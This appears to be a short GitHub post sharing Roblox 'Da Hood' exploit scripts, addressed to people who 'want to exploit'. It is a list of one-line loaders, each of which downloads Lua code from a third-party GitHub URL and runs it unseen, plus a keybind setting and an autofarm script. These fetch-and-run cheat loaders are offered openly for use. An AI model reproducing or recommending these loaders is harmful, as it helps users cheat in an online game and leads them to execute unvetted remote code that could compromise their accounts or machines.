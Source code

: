 hi this is roblox da hood scripts (if u want to exploit) 
loadstring(game:HttpGet('https://raw.githubusercontent.com/Scrvpter/Pluto/Lua/Loader.Lua', true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/lerkermer/lua-projects/master/SwagModeV002"))()
_G.Toggles = "V" -- You can put any keybind
loadstring(game:HttpGet("https://raw.githubusercontent.com/NighterEpic/Faded/main/YesEpic", true))()
loadstring(game:HttpGet('https://raw.githubusercontent.com/SpaceYes/Lua/Main/DaHood.Lua'))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/CF-Trail/tzechco-PlsDonateAutofarmBackup/main/autofarm"))()
and i will do more for u guys<3
